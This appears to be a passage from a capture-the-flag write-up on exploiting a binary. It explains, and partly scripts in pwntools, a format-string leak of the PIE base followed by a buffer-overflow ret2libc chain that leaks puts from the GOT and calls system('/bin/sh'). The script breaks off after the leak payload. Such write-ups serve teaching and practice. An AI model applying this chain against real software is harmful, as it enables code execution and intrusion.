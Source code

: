 ```python
io.interactive()
```

To recap, the exploit will first try to calculate the PIE base address of the executable by exploiting the format string vulnerability in the `enter_name` function, then it will use that base address to figure out the `pop rdi` gadget's address.

Then we leak the `libc` base address by calculating the exact address of the function `puts`, which was used in `vuln`. We do this by doing a buffer overflow in the `vuln` function. We pad the payload with 264 bytes, then pass the `puts` address specified by the GOT table into the `rdi` by using the `pop rdi` gadget that we got from the first part. We then call the `puts` method to print out the value in `rdi` out into the screen, then set the return address to return back to `vuln` for the next part. Now that we have the exact address of `puts`, we can get the offset of the `puts` function relative to the base address of `libc` in the `libc` library by using commands like `readelf`. Then subtract the absolute address of `puts` with the offset of `puts` and get the `libc` base address.

With the `libc` base address, we can now get the exact address of the `system` function and `/bin/sh` string in `libc` by adding it with the offset that we got from `readelf` and `string`. This will give us the exact address of `system` and `/bin/sh`.

With the exact address of the necessary functions and strings, we can perform the get shell attack. Because our previous payload to grab the `libc` base address put us back into the `vuln` function, we can construct another payload and send it into `vuln`. So we firstly pad the payload with 264 bytes, then pass in the `pop rdi` gadget to pop the `/bin/sh` into the `rdi` register. Then we call the `system` function.

Here's a script that completely automate this process:

```python
# Lib-C library
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local

# Offset to RIP
offset = 264

# Start program
io = start()

# Offset of pop_rdi gadget from ropper
# We need to find the PIEBASE before we can use
pop_rdi_offset = 0x12ab

# Leak 15th address from stack (main+44)
io.sendlineafter(b':', '%{}$p'.format(15), 16)
io.recvuntil(b'Hello ')  # Address will follow
leaked_addr = int(io.recvline(), 16)
info("leaked_address: %#x", leaked_addr)

# Now calculate the PIEBASE
elf.address = leaked_addr - 0x1224
info("piebase: %#x", elf.address)

# Update pop_rdi gadget
pop_rdi = elf.address + pop_rdi_offset

# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,  # Pop got.puts into RDI
        elf.got.puts,
        elf.plt.puts,  # Call puts() to leak the got.puts address
        elf.symbols.vuln  # Return to vuln (to overflow buffer with another payload)
    ]
})

# Send the payload
```